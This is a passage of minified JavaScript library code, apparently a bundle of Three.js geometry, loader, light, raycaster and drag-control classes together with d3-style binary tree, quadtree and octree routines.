n=this.points[e];t.points.push(n.toArray())}return t}fromJSON(t){super.fromJSON(t),this.points=[];for(let e=0,n=t.points.length;e<n;e++){const n=t.points[e];this.points.push((new ve).fromArray(n))}return this}}});class Ps extends Pi{constructor(t=1,e=1,n=1,i=32,r=1,a=!1,o=0,s=2*Math.PI){super(),this.type=\"CylinderGeometry\",this.parameters={radiusTop:t,radiusBottom:e,height:n,radialSegments:i,heightSegments:r,openEnded:a,thetaStart:o,thetaLength:s};const l=this;i=Math.floor(i),r=Math.floor(r);const c=[],h=[],u=[],d=[];let p=0;const f=[],m=n/2;let g=0;function _(n){const r=p,a=new ve,f=new Xe;let _=0;const v=!0===n?t:e,y=!0===n?1:-1;for(let t=1;t<=i;t++)h.push(0,m*y,0),u.push(0,y,0),d.push(.5,.5),p++;const x=p;for(let t=0;t<=i;t++){const e=t/i*s+o,n=Math.cos(e),r=Math.sin(e);f.x=v*r,f.y=m*y,f.z=v*n,h.push(f.x,f.y,f.z),u.push(0,y,0),a.x=.5*n+.5,a.y=.5*r*y+.5,d.push(a.x,a.y),p++}for(let t=0;t<i;t++){const e=r+t,i=x+t;!0===n?c.push(i,i+1,e):c.push(i+1,i,e),_+=3}l.addGroup(g,_,!0===n?1:2),g+=_}!function(){const a=new Xe,_=new Xe;let v=0;const y=(e-t)/n;for(let l=0;l<=r;l++){const c=[],g=l/r,v=g*(e-t)+t;for(let t=0;t<=i;t++){const e=t/i,r=e*s+o,l=Math.sin(r),f=Math.cos(r);_.x=v*l,_.y=-g*n+m,_.z=v*f,h.push(_.x,_.y,_.z),a.set(l,y,f).normalize(),u.push(a.x,a.y,a.z),d.push(e,1-g),c.push(p++)}f.push(c)}for(let t=0;t<i;t++)for(let e=0;e<r;e++){const n=f[e][t],i=f[e+1][t],r=f[e+1][t+1],a=f[e][t+1];c.push(n,i,a),c.push(i,r,a),v+=6}l.addGroup(g,v,0),g+=v}(),!1===a&&(t>0&&_(!0),e>0&&_(!1)),this.setIndex(c),this.setAttribute(\"position\",new Mi(h,3)),this.setAttribute(\"normal\",new Mi(u,3)),this.setAttribute(\"uv\",new Mi(d,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new Ps(t.radiusTop,t.radiusBottom,t.height,t.radialSegments,t.heightSegments,t.openEnded,t.thetaStart,t.thetaLength)}}class Ls extends Ps{constructor(t=1,e=1,n=32,i=1,r=!1,a=0,o=2*Math.PI){super(0,t,e,n,i,r,a,o),this.type=\"ConeGeometry\",this.parameters={radius:t,height:e,radialSegments:n,heightSegments:i,openEnded:r,thetaStart:a,thetaLength:o}}static fromJSON(t){return new Ls(t.radius,t.height,t.radialSegments,t.heightSegments,t.openEnded,t.thetaStart,t.thetaLength)}}class Ds extends Pi{constructor(t=1,e=32,n=16,i=0,r=2*Math.PI,a=0,o=Math.PI){super(),this.type=\"SphereGeometry\",this.parameters={radius:t,widthSegments:e,heightSegments:n,phiStart:i,phiLength:r,thetaStart:a,thetaLength:o},e=Math.max(3,Math.floor(e)),n=Math.max(2,Math.floor(n));const s=Math.min(a+o,Math.PI);let l=0;const c=[],h=new Xe,u=new Xe,d=[],p=[],f=[],m=[];for(let d=0;d<=n;d++){const g=[],_=d/n;let v=0;0===d&&0===a?v=.5/e:d===n&&s===Math.PI&&(v=-.5/e);for(let n=0;n<=e;n++){const s=n/e;h.x=-t*Math.cos(i+s*r)*Math.sin(a+_*o),h.y=t*Math.cos(a+_*o),h.z=t*Math.sin(i+s*r)*Math.sin(a+_*o),p.push(h.x,h.y,h.z),u.copy(h).normalize(),f.push(u.x,u.y,u.z),m.push(s+v,1-_),g.push(l++)}c.push(g)}for(let t=0;t<n;t++)for(let i=0;i<e;i++){const e=c[t][i+1],r=c[t][i],o=c[t+1][i],l=c[t+1][i+1];(0!==t||a>0)&&d.push(e,r,l),(t!==n-1||s<Math.PI)&&d.push(r,o,l)}this.setIndex(d),this.setAttribute(\"position\",new Mi(p,3)),this.setAttribute(\"normal\",new Mi(f,3)),this.setAttribute(\"uv\",new Mi(m,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new Ds(t.radius,t.widthSegments,t.heightSegments,t.phiStart,t.phiLength,t.thetaStart,t.thetaLength)}}class Is extends Pi{constructor(t=new Cs(new Xe(-1,-1,0),new Xe(-1,1,0),new Xe(1,1,0)),e=64,n=1,i=8,r=!1){super(),this.type=\"TubeGeometry\",this.parameters={path:t,tubularSegments:e,radius:n,radialSegments:i,closed:r};const a=t.computeFrenetFrames(e,r);this.tangents=a.tangents,this.normals=a.normals,this.binormals=a.binormals;const o=new Xe,s=new Xe,l=new ve;let c=new Xe;const h=[],u=[],d=[],p=[];function f(r){c=t.getPointAt(r/e,c);const l=a.normals[r],d=a.binormals[r];for(let t=0;t<=i;t++){const e=t/i*Math.PI*2,r=Math.sin(e),a=-Math.cos(e);s.x=a*l.x+r*d.x,s.y=a*l.y+r*d.y,s.z=a*l.z+r*d.z,s.normalize(),u.push(s.x,s.y,s.z),o.x=c.x+n*s.x,o.y=c.y+n*s.y,o.z=c.z+n*s.z,h.push(o.x,o.y,o.z)}}!function(){for(let t=0;t<e;t++)f(t);f(!1===r?e:0),function(){for(let t=0;t<=e;t++)for(let n=0;n<=i;n++)l.x=t/e,l.y=n/i,d.push(l.x,l.y)}(),function(){for(let t=1;t<=e;t++)for(let e=1;e<=i;e++){const n=(i+1)*(t-1)+(e-1),r=(i+1)*t+(e-1),a=(i+1)*t+e,o=(i+1)*(t-1)+e;p.push(n,r,o),p.push(r,a,o)}}()}(),this.setIndex(p),this.setAttribute(\"position\",new Mi(h,3)),this.setAttribute(\"normal\",new Mi(u,3)),this.setAttribute(\"uv\",new Mi(d,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}toJSON(){const t=super.toJSON();return t.path=this.parameters.path.toJSON(),t}static fromJSON(t){return new Is((new Rs[t.path.type]).fromJSON(t.path),t.tubularSegments,t.radius,t.radialSegments,t.closed)}}const Os={enabled:!1,files:{},add:function(t,e){!1!==this.enabled&&(this.files[t]=e)},get:function(t){if(!1!==this.enabled)return this.files[t]},remove:function(t){delete this.files[t]},clear:function(){this.files={}}};class Us{constructor(t,e,n){const i=this;let r,a=!1,o=0,s=0;const l=[];this.onStart=void 0,this.onLoad=t,this.onProgress=e,this.onError=n,this.itemStart=function(t){s++,!1===a&&void 0!==i.onStart&&i.onStart(t,o,s),a=!0},this.itemEnd=function(t){o++,void 0!==i.onProgress&&i.onProgress(t,o,s),o===s&&(a=!1,void 0!==i.onLoad&&i.onLoad())},this.itemError=function(t){void 0!==i.onError&&i.onError(t)},this.resolveURL=function(t){return r?r(t):t},this.setURLModifier=function(t){return r=t,this},this.addHandler=function(t,e){return l.push(t,e),this},this.removeHandler=function(t){const e=l.indexOf(t);return-1!==e&&l.splice(e,2),this},this.getHandler=function(t){for(let e=0,n=l.length;e<n;e+=2){const n=l[e],i=l[e+1];if(n.global&&(n.lastIndex=0),n.test(t))return i}return null}}}const Ns=new Us;class Fs{constructor(t){this.manager=void 0!==t?t:Ns,this.crossOrigin=\"anonymous\",this.withCredentials=!1,this.path=\"\",this.resourcePath=\"\",this.requestHeader={}}load(){}loadAsync(t,e){const n=this;return new Promise((function(i,r){n.load(t,i,e,r)}))}parse(){}setCrossOrigin(t){return this.crossOrigin=t,this}setWithCredentials(t){return this.withCredentials=t,this}setPath(t){return this.path=t,this}setResourcePath(t){return this.resourcePath=t,this}setRequestHeader(t){return this.requestHeader=t,this}}Fs.DEFAULT_MATERIAL_NAME=\"__DEFAULT\";class ks extends Fs{constructor(t){super(t)}load(t,e,n,i){void 0!==this.path&&(t=this.path+t),t=this.manager.resolveURL(t);const r=this,a=Os.get(t);if(void 0!==a)return r.manager.itemStart(t),setTimeout((function(){e&&e(a),r.manager.itemEnd(t)}),0),a;const o=Me(\"img\");function s(){c(),Os.add(t,this),e&&e(this),r.manager.itemEnd(t)}function l(e){c(),i&&i(e),r.manager.itemError(t),r.manager.itemEnd(t)}function c(){o.removeEventListener(\"load\",s,!1),o.removeEventListener(\"error\",l,!1)}return o.addEventListener(\"load\",s,!1),o.addEventListener(\"error\",l,!1),\"data:\"!==t.slice(0,5)&&void 0!==this.crossOrigin&&(o.crossOrigin=this.crossOrigin),r.manager.itemStart(t),o.src=t,o}}class zs extends Zn{constructor(t,e=1){super(),this.isLight=!0,this.type=\"Light\",this.color=new di(t),this.intensity=e}dispose(){}copy(t,e){return super.copy(t,e),this.color.copy(t.color),this.intensity=t.intensity,this}toJSON(t){const e=super.toJSON(t);return e.object.color=this.color.getHex(),e.object.intensity=this.intensity,void 0!==this.groundColor&&(e.object.groundColor=this.groundColor.getHex()),void 0!==this.distance&&(e.object.distance=this.distance),void 0!==this.angle&&(e.object.angle=this.angle),void 0!==this.decay&&(e.object.decay=this.decay),void 0!==this.penumbra&&(e.object.penumbra=this.penumbra),void 0!==this.shadow&&(e.object.shadow=this.shadow.toJSON()),void 0!==this.target&&(e.object.target=this.target.uuid),e}}const Bs=new Sn,Hs=new Xe,Vs=new Xe;class Gs{constructor(t){this.camera=t,this.intensity=1,this.bias=0,this.normalBias=0,this.radius=1,this.blurSamples=8,this.mapSize=new ve(512,512),this.map=null,this.mapPass=null,this.matrix=new Sn,this.autoUpdate=!0,this.needsUpdate=!1,this._frustum=new _r,this._frameExtents=new ve(1,1),this._viewportCount=1,this._viewports=[new Be(0,0,1,1)]}getViewportCount(){return this._viewportCount}getFrustum(){return this._frustum}updateMatrices(t){const e=this.camera,n=this.matrix;Hs.setFromMatrixPosition(t.matrixWorld),e.position.copy(Hs),Vs.setFromMatrixPosition(t.target.matrixWorld),e.lookAt(Vs),e.updateMatrixWorld(),Bs.multiplyMatrices(e.projectionMatrix,e.matrixWorldInverse),this._frustum.setFromProjectionMatrix(Bs),n.set(.5,0,0,.5,0,.5,0,.5,0,0,.5,.5,0,0,0,1),n.multiply(Bs)}getViewport(t){return this._viewports[t]}getFrameExtents(){return this._frameExtents}dispose(){this.map&&this.map.dispose(),this.mapPass&&this.mapPass.dispose()}copy(t){return this.camera=t.camera.clone(),this.intensity=t.intensity,this.bias=t.bias,this.radius=t.radius,this.mapSize.copy(t.mapSize),this}clone(){return(new this.constructor).copy(this)}toJSON(){const t={};return 1!==this.intensity&&(t.intensity=this.intensity),0!==this.bias&&(t.bias=this.bias),0!==this.normalBias&&(t.normalBias=this.normalBias),1!==this.radius&&(t.radius=this.radius),512===this.mapSize.x&&512===this.mapSize.y||(t.mapSize=this.mapSize.toArray()),t.camera=this.camera.toJSON(!1).object,delete t.camera.matrix,t}}class js extends Gs{constructor(){super(new Ir(-5,5,5,-5,.5,500)),this.isDirectionalLightShadow=!0}}class Ws{constructor(t=!0){this.autoStart=t,this.startTime=0,this.oldTime=0,this.elapsedTime=0,this.running=!1}start(){this.startTime=Xs(),this.oldTime=this.startTime,this.elapsedTime=0,this.running=!0}stop(){this.getElapsedTime(),this.running=!1,this.autoStart=!1}getElapsedTime(){return this.getDelta(),this.elapsedTime}getDelta(){let t=0;if(this.autoStart&&!this.running)return this.start(),0;if(this.running){const e=Xs();t=(e-this.oldTime)/1e3,this.oldTime=e,this.elapsedTime+=t}return t}}function Xs(){return(\"undefined\"==typeof performance?Date:performance).now()}const qs=new Sn;class Ys{constructor(t,e,n=0,i=1/0){this.ray=new Mn(t,e),this.near=n,this.far=i,this.camera=null,this.layers=new On,this.params={Mesh:{},Line:{threshold:1},LOD:{},Points:{threshold:1},Sprite:{}}}set(t,e){this.ray.set(t,e)}setFromCamera(t,e){e.isPerspectiveCamera?(this.ray.origin.setFromMatrixPosition(e.matrixWorld),this.ray.direction.set(t.x,t.y,.5).unproject(e).sub(this.ray.origin).normalize(),this.camera=e):e.isOrthographicCamera?(this.ray.origin.set(t.x,t.y,(e.near+e.far)/(e.near-e.far)).unproject(e),this.ray.direction.set(0,0,-1).transformDirection(e.matrixWorld),this.camera=e):console.error(\"THREE.Raycaster: Unsupported camera type: \"+e.type)}setFromXRController(t){return qs.identity().extractRotation(t.matrixWorld),this.ray.origin.setFromMatrixPosition(t.matrixWorld),this.ray.direction.set(0,0,-1).applyMatrix4(qs),this}intersectObject(t,e=!0,n=[]){return Zs(t,this,n,e),n.sort(Ks),n}intersectObjects(t,e=!0,n=[]){for(let i=0,r=t.length;i<r;i++)Zs(t[i],this,n,e);return n.sort(Ks),n}}function Ks(t,e){return t.distance-e.distance}function Zs(t,e,n,i){let r=!0;if(t.layers.test(e.layers)){!1===t.raycast(e,n)&&(r=!1)}if(!0===r&&!0===i){const i=t.children;for(let t=0,r=i.length;t<r;t++)Zs(i[t],e,n,!0)}}class $s{constructor(t=1,e=0,n=0){return this.radius=t,this.phi=e,this.theta=n,this}set(t,e,n){return this.radius=t,this.phi=e,this.theta=n,this}copy(t){return this.radius=t.radius,this.phi=t.phi,this.theta=t.theta,this}makeSafe(){const t=1e-6;return this.phi=Math.max(t,Math.min(Math.PI-t,this.phi)),this}setFromVector3(t){return this.setFromCartesianCoords(t.x,t.y,t.z)}setFromCartesianCoords(t,e,n){return this.radius=Math.sqrt(t*t+e*e+n*n),0===this.radius?(this.theta=0,this.phi=0):(this.theta=Math.atan2(t,n),this.phi=Math.acos(de(e/this.radius,-1,1))),this}clone(){return(new this.constructor).copy(this)}}class Js extends oe{constructor(t,e){super(),this.object=t,this.domElement=e,this.enabled=!0,this.state=-1,this.keys={},this.mouseButtons={LEFT:null,MIDDLE:null,RIGHT:null},this.touches={ONE:null,TWO:null}}connect(){}disconnect(){}dispose(){}update(){}}\"undefined\"!=typeof __THREE_DEVTOOLS__&&__THREE_DEVTOOLS__.dispatchEvent(new CustomEvent(\"register\",{detail:{revision:a}})),\"undefined\"!=typeof window&&(window.__THREE__?console.warn(\"WARNING: Multiple instances of Three.js being imported.\"):window.__THREE__=a);const Qs=new fr,tl=new ve,el=new Xe,nl=new ve,il=new ve,rl=new Xe,al=new Xe,ol=new Sn,sl=new Xe,ll=new Xe;let cl=null,hl=null;const ul=[],dl=-1,pl=0,fl=1;class ml extends Js{constructor(t,e,n=null){super(e,n),this.objects=t,this.recursive=!0,this.transformGroup=!1,this.rotateSpeed=1,this.raycaster=new Ys,this.mouseButtons={LEFT:o.PAN,MIDDLE:o.PAN,RIGHT:o.ROTATE},this.touches={ONE:l},this._onPointerMove=gl.bind(this),this._onPointerDown=_l.bind(this),this._onPointerCancel=vl.bind(this),this._onContextMenu=yl.bind(this),null!==n&&this.connect()}connect(){this.domElement.addEventListener(\"pointermove\",this._onPointerMove),this.domElement.addEventListener(\"pointerdown\",this._onPointerDown),this.domElement.addEventListener(\"pointerup\",this._onPointerCancel),this.domElement.addEventListener(\"pointerleave\",this._onPointerCancel),this.domElement.addEventListener(\"contextmenu\",this._onContextMenu),this.domElement.style.touchAction=\"none\"}disconnect(){this.domElement.removeEventListener(\"pointermove\",this._onPointerMove),this.domElement.removeEventListener(\"pointerdown\",this._onPointerDown),this.domElement.removeEventListener(\"pointerup\",this._onPointerCancel),this.domElement.removeEventListener(\"pointerleave\",this._onPointerCancel),this.domElement.removeEventListener(\"contextmenu\",this._onContextMenu),this.domElement.style.touchAction=\"auto\",this.domElement.style.cursor=\"\"}dispose(){this.disconnect()}_updatePointer(t){const e=this.domElement.getBoundingClientRect();tl.x=(t.clientX-e.left)/e.width*2-1,tl.y=-(t.clientY-e.top)/e.height*2+1}_updateState(t){let e;if(\"touch\"===t.pointerType)e=this.touches.ONE;else switch(t.button){case 0:e=this.mouseButtons.LEFT;break;case 1:e=this.mouseButtons.MIDDLE;break;case 2:e=this.mouseButtons.RIGHT;break;default:e=null}switch(e){case o.PAN:case l:this.state=pl;break;case o.ROTATE:case s:this.state=fl;break;default:this.state=dl}}getRaycaster(){return console.warn(\"THREE.DragControls: getRaycaster() has been deprecated. Use controls.raycaster instead.\"),this.raycaster}setObjects(t){console.warn(\"THREE.DragControls: setObjects() has been deprecated. Use controls.objects instead.\"),this.objects=t}getObjects(){return console.warn(\"THREE.DragControls: getObjects() has been deprecated. Use controls.objects instead.\"),this.objects}activate(){console.warn(\"THREE.DragControls: activate() has been renamed to connect().\"),this.connect()}deactivate(){console.warn(\"THREE.DragControls: deactivate() has been renamed to disconnect().\"),this.disconnect()}set mode(t){console.warn(\"THREE.DragControls: The .mode property has been removed. Define the type of transformation via the .mouseButtons or .touches properties.\")}get mode(){console.warn(\"THREE.DragControls: The .mode property has been removed. Define the type of transformation via the .mouseButtons or .touches properties.\")}}function gl(t){const e=this.object,n=this.domElement,i=this.raycaster;if(!1!==this.enabled){if(this._updatePointer(t),i.setFromCamera(tl,e),cl)this.state===pl?i.ray.intersectPlane(Qs,rl)&&cl.position.copy(rl.sub(el).applyMatrix4(ol)):this.state===fl&&(nl.subVectors(tl,il).multiplyScalar(this.rotateSpeed),cl.rotateOnWorldAxis(sl,nl.x),cl.rotateOnWorldAxis(ll.normalize(),-nl.y)),this.dispatchEvent({type:\"drag\",object:cl}),il.copy(tl);else if(\"mouse\"===t.pointerType||\"pen\"===t.pointerType)if(ul.length=0,i.setFromCamera(tl,e),i.intersectObjects(this.objects,this.recursive,ul),ul.length>0){const t=ul[0].object;Qs.setFromNormalAndCoplanarPoint(e.getWorldDirection(Qs.normal),al.setFromMatrixPosition(t.matrixWorld)),hl!==t&&null!==hl&&(this.dispatchEvent({type:\"hoveroff\",object:hl}),n.style.cursor=\"auto\",hl=null),hl!==t&&(this.dispatchEvent({type:\"hoveron\",object:t}),n.style.cursor=\"pointer\",hl=t)}else null!==hl&&(this.dispatchEvent({type:\"hoveroff\",object:hl}),n.style.cursor=\"auto\",hl=null);il.copy(tl)}}function _l(t){const e=this.object,n=this.domElement,i=this.raycaster;!1!==this.enabled&&(this._updatePointer(t),this._updateState(t),ul.length=0,i.setFromCamera(tl,e),i.intersectObjects(this.objects,this.recursive,ul),ul.length>0&&(cl=!0===this.transformGroup?xl(ul[0].object):ul[0].object,Qs.setFromNormalAndCoplanarPoint(e.getWorldDirection(Qs.normal),al.setFromMatrixPosition(cl.matrixWorld)),i.ray.intersectPlane(Qs,rl)&&(this.state===pl?(ol.copy(cl.parent.matrixWorld).invert(),el.copy(rl).sub(al.setFromMatrixPosition(cl.matrixWorld))):this.state===fl&&(sl.set(0,1,0).applyQuaternion(e.quaternion).normalize(),ll.set(1,0,0).applyQuaternion(e.quaternion).normalize())),n.style.cursor=\"move\",this.dispatchEvent({type:\"dragstart\",object:cl})),il.copy(tl))}function vl(){!1!==this.enabled&&(cl&&(this.dispatchEvent({type:\"dragend\",object:cl}),cl=null),this.domElement.style.cursor=hl?\"pointer\":\"auto\",this.state=dl)}function yl(t){!1!==this.enabled&&t.preventDefault()}function xl(t,e=null){return t.isGroup&&(e=t),null===t.parent?e:xl(t.parent,e)}function bl(t,e,n){var i,r=1;function a(){var a,o,s=i.length,l=0,c=0,h=0;for(a=0;a<s;++a)l+=(o=i[a]).x||0,c+=o.y||0,h+=o.z||0;for(l=(l/s-t)*r,c=(c/s-e)*r,h=(h/s-n)*r,a=0;a<s;++a)o=i[a],l&&(o.x-=l),c&&(o.y-=c),h&&(o.z-=h)}return null==t&&(t=0),null==e&&(e=0),null==n&&(n=0),a.initialize=function(t){i=t},a.x=function(e){return arguments.length?(t=+e,a):t},a.y=function(t){return arguments.length?(e=+t,a):e},a.z=function(t){return arguments.length?(n=+t,a):n},a.strength=function(t){return arguments.length?(r=+t,a):r},a}function Ml(t,e,n){if(isNaN(e))return t;var i,r,a,o,s,l,c=t._root,h={data:n},u=t._x0,d=t._x1;if(!c)return t._root=h,t;for(;c.length;)if((o=e>=(r=(u+d)/2))?u=r:d=r,i=c,!(c=c[s=+o]))return i[s]=h,t;if(e===(a=+t._x.call(null,c.data)))return h.next=c,i?i[s]=h:t._root=h,t;do{i=i?i[s]=new Array(2):t._root=new Array(2),(o=e>=(r=(u+d)/2))?u=r:d=r}while((s=+o)==(l=+(a>=r)));return i[l]=c,i[s]=h,t}function Sl(t,e,n){this.node=t,this.x0=e,this.x1=n}function El(t){return t[0]}function wl(t,e){var n=new Tl(null==e?El:e,NaN,NaN);return null==t?n:n.addAll(t)}function Tl(t,e,n){this._x=t,this._x0=e,this._x1=n,this._root=void 0}function Al(t){for(var e={data:t.data},n=e;t=t.next;)n=n.next={data:t.data};return e}var Cl=wl.prototype=Tl.prototype;function Rl(t,e,n,i){if(isNaN(e)||isNaN(n))return t;var r,a,o,s,l,c,h,u,d,p=t._root,f={data:i},m=t._x0,g=t._y0,_=t._x1,v=t._y1;if(!p)return t._root=f,t;for(;p.length;)if((c=e>=(a=(m+_)/2))?m=a:_=a,(h=n>=(o=(g+v)/2))?g=o:v=o,r=p,!(p=p[u=h<<1|c]))return r[u]=f,t;if(s=+t._x.call(null,p.data),l=+t._y.call(null,p.data),e===s&&n===l)return f.next=p,r?r[u]=f:t._root=f,t;do{r=r?r[u]=new Array(4):t._root=new Array(4),(c=e>=(a=(m+_)/2))?m=a:_=a,(h=n>=(o=(g+v)/2))?g=o:v=o}while((u=h<<1|c)==(d=(l>=o)<<1|s>=a));return r[d]=p,r[u]=f,t}function Pl(t,e,n,i,r){this.node=t,this.x0=e,this.y0=n,this.x1=i,this.y1=r}function Ll(t){return t[0]}function Dl(t){return t[1]}function Il(t,e,n){var i=new Ol(null==e?Ll:e,null==n?Dl:n,NaN,NaN,NaN,NaN);return null==t?i:i.addAll(t)}function Ol(t,e,n,i,r,a){this._x=t,this._y=e,this._x0=n,this._y0=i,this._x1=r,this._y1=a,this._root=void 0}function Ul(t){for(var e={data:t.data},n=e;t=t.next;)n=n.next={data:t.data};return e}Cl.copy=function(){var t,e,n=new Tl(this._x,this._x0,this._x1),i=this._root;if(!i)return n;if(!i.length)return n._root=Al(i),n;for(t=[{source:i,target:n._root=new Array(2)}];i=t.pop();)for(var r=0;r<2;++r)(e=i.source[r])&&(e.length?t.push({source:e,target:i.target[r]=new Array(2)}):i.target[r]=Al(e));return n},Cl.add=function(t){const e=+this._x.call(null,t);return Ml(this.cover(e),e,t)},Cl.addAll=function(t){Array.isArray(t)||(t=Array.from(t));const e=t.length,n=new Float64Array(e);let i=1/0,r=-1/0;for(let a,o=0;o<e;++o)isNaN(a=+this._x.call(null,t[o]))||(n[o]=a,a<i&&(i=a),a>r&&(r=a));if(i>r)return this;this.cover(i).cover(r);for(let i=0;i<e;++i)Ml(this,n[i],t[i]);return this},Cl.cover=function(t){if(isNaN(t=+t))return this;var e=this._x0,n=this._x1;if(isNaN(e))n=(e=Math.floor(t))+1;else{for(var i,r,a=n-e||1,o=this._root;e>t||t>=n;)switch(r=+(t<e),(i=new Array(2))[r]=o,o=i,a*=2,r){case 0:n=e+a;break;case 1:e=n-a}this._root&&this._root.length&&(this._root=o)}return this._x0=e,this._x1=n,this},Cl.data=function(){var t=[];return this.visit((function(e){if(!e.length)do{t.push(e.data)}while(e=e.next)})),t},Cl.extent=function(t){return arguments.length?this.cover(+t[0][0]).cover(+t[1][0]):isNaN(this._x0)?void 0:[[this._x0],[this._x1]]},Cl.find=function(t,e){var n,i,r,a,o,s=this._x0,l=this._x1,c=[],h=this._root;for(h&&c.push(new Sl(h,s,l)),null==e?e=1/0:(s=t-e,l=t+e);a=c.pop();)if(!(!(h=a.node)||(i=a.x0)>l||(r=a.x1)<s))if(h.length){var u=(i+r)/2;c.push(new Sl(h[1],u,r),new Sl(h[0],i,u)),(o=+(t>=u))&&(a=c[c.length-1],c[c.length-1]=c[c.length-1-o],c[c.length-1-o]=a)}else{var d=Math.abs(t-+this._x.call(null,h.data));d<e&&(e=d,s=t-d,l=t+d,n=h.data)}return n},Cl.remove=function(t){if(isNaN(a=+this._x.call(null,t)))return this;var e,n,i,r,a,o,s,l,c,h=this._root,u=this._x0,d=this._x1;if(!h)return this;if(h.length)for(;;){if((s=a>=(o=(u+d)/2))?u=o:d=o,e=h,!(h=h[l=+s]))return this;if(!h.length)break;e[l+1&1]&&(n=e,c=l)}for(;h.data!==t;)if(i=h,!(h=h.next))return this;return(r=h.next)&&delete h.next,i?(r?i.next=r:delete i.next,this):e?(r?e[l]=r:delete e[l],(h=e[0]||e[1])&&h===(e[1]||e[0])&&!h.length&&(n?n[c]=h:this._root=h),this):(this._root=r,this)},Cl.removeAll=function(t){for(var e=0,n=t.length;e<n;++e)this.remove(t[e]);return this},Cl.root=function(){return this._root},Cl.size=function(){var t=0;return this.visit((function(e){if(!e.length)do{++t}while(e=e.next)})),t},Cl.visit=function(t){var e,n,i,r,a=[],o=this._root;for(o&&a.push(new Sl(o,this._x0,this._x1));e=a.pop();)if(!t(o=e.node,i=e.x0,r=e.x1)&&o.length){var s=(i+r)/2;(n=o[1])&&a.push(new Sl(n,s,r)),(n=o[0])&&a.push(new Sl(n,i,s))}return this},Cl.visitAfter=function(t){var e,n=[],i=[];for(this._root&&n.push(new Sl(this._root,this._x0,this._x1));e=n.pop();){var r=e.node;if(r.length){var a,o=e.x0,s=e.x1,l=(o+s)/2;(a=r[0])&&n.push(new Sl(a,o,l)),(a=r[1])&&n.push(new Sl(a,l,s))}i.push(e)}for(;e=i.pop();)t(e.node,e.x0,e.x1);return this},Cl.x=function(t){return arguments.length?(this._x=t,this):this._x};var Nl=Il.prototype=Ol.prototype;function Fl(t,e,n,i,r){if(isNaN(e)||isNaN(n)||isNaN(i))return t;var a,o,s,l,c,h,u,d,p,f,m,g,_=t._root,v={data:r},y=t._x0,x=t._y0,b=t._z0,M=t._x1,S=t._y1,E=t._z1;if(!_)return t._root=v,t;for(;_.length;)if((d=e>=(o=(y+M)/2))?y=o:M=o,(p=n>=(s=(x+S)/2))?x=s:S=s,(f=i>=(l=(b+E)/2))?b=l:E=l,a=_,!(_=_[m=f<<2|p<<1|d]))return a[m]=v,t;if(c=+t._x.call(null,_.data),h=+t._y.call(null,_.data),u=+t._z.call(null,_.data),e===c&&n===h&&i===u)return v.next=_,a?a[m]=v:t._root=v,t;do{a=a?a[m]=new Array(8):t._root=new Array(8),(d=e>=(o=(y+M)/2))?y=o:M=o,(p=n>=(s=(x+S)/2))?x=s:S=s,(f=i>=(l=(b+E)/2))?b=l:E=l}while((m=f<<2|p<<1|d)==(g=(u>=l)<<2|(h>=s)<<1|c>=o));return a[g]=_,a[m]=v,t}function kl(t,e,n,i,r,a,o){this.node=t,this.x0=e,this.y0=n,this.z0=i,this.x1=r,this.y1=a,this.z1=o}function zl(t){return t[0]}function Bl(t){return t[1]}function Hl(t){return t[2]}function Vl(t,e,n,i){var r=new Gl(null==e?zl:e,null==n?Bl:n,null==i?Hl:i,NaN,NaN,NaN,NaN,NaN,NaN);return null==t?r:r.addAll(t)}function Gl(t,e,n,i,r,a,o,s,l){this._x=t,this._y=e,this._z=n,this._x0=i,this._y0=r,this._z0=a,this._x1=o,this._y1=s,this._z1=l,this._root=void 0}function jl(t){for(var e={data:t.data},n=e;t=t.next;)n=n.next={data:t.data};return e}Nl.copy=function(){var t,e,n=new Ol(this._x,this._y,this._x0,this._y0,this._x1,this._y1),i=this._root;if(!i)return n;if(!i.length)return n._root=Ul(i),n;for(t=[{source:i,target:n._root=new Array(4)}];i=t.pop();)for(var r=0;r<4;++r)(e=i.source[r])&&(e.length?t.push({source:e,target:i.target[r]=new Array(4)}):i.target[r]=Ul(e));return n},Nl.add=function(t){const e=+this._x.call(null,t),n=+this._y.call(null,t);return Rl(this.cover(e,n),e,n,t)},Nl.addAll=function(t){var e,n,i,r,a=t.length,o=new Array(a),s=new Array(a),l=1/0,c=1/0,h=-1/0,u=-1/0;for(n=0;n<a;++n)isNaN(i=+this._x.call(null,e=t[n]))||isNaN(r=+this._y.call(null,e))||(o[n]=i,s[n]=r,i<l&&(l=i),i>h&&(h=i),r<c&&(c=r),r>u&&(u=r));if(l>h||c>u)return this;for(this.cover(l,c).cover(h,u),n=0;n<a;++n)Rl(this,o[n],s[n],t[n]);return this},Nl.cover=function(t,e){if(isNaN(t=+t)||isNaN(e=+e))return this;var n=this._x0,i=this._y0,r=this._x1,a=this._y1;if(isNaN(n))r=(n=Math.floor(t))+1,a=(i=Math.floor(e))+1;else{for(var o,s,l=r-n||1,c=this._root;n>t||t>=r||i>e||e>=a;)switch(s=(e<i)<<1|t<n,(o=new Array(4))[s]=c,c=o,l*=2,s){case 0:r=n+l,a=i+l;break;case 1:n=r-l,a=i+l;break;case 2:r=n+l,i=a-l;break;case 3:n=r-l,i=a-l}this._root&&this._root.length&&(this._root=c)}return this._x0=n,this._y0=i,this._x1=r,this._y1=a,this},Nl.data=function(){var t=[];return this.visit((function(e){if(!e.length)do{t.push(e.data)}while(e=e.next)})),t},Nl.extent=function(t){return arguments.length?this.cover(+t[0][0],+t[0][1]).cover(+t[1][0],+t[1][1]):isNaN(this._x0)?void 0:[[this._x0,this._y0],[this._x1,this._y1]]},Nl.find=function(t,e,n){var i,r,a,o,s,l,c,h=this._x0,u=this._y0,d=this._x1,p=this._y1,f=[],m=this._root;for(m&&f.push(new Pl(m,h,u,d,p)),null==n?n=1/0:(h=t-n,u=e-n,d=t+n,p=e+n,n*=n);l=f.pop();)if(!(!(m=l.node)||(r=l.x0)>d||(a=l.y0)>p||(o=l.x1)<h||(s=l.y1)<u))if(m.length){var g=(r+o)/2,_=(a+s)/2;f.push(new Pl(m[3],g,_,o,s),new Pl(m[2],r,_,g,s),new Pl(m[1],g,a,o,_),new Pl(m[0],r,a,g,_)),(c=(e>=_)<<1|t>=g)&&(l=f[f.length-1],f[f.length-1]=f[f.length-1-c],f[f.length-1-c]=l)}else{var v=t-+this._x.call(null,m.data),y=e-+this._y.call(null,m.data),x=v*v+y*y;if(x<n){var 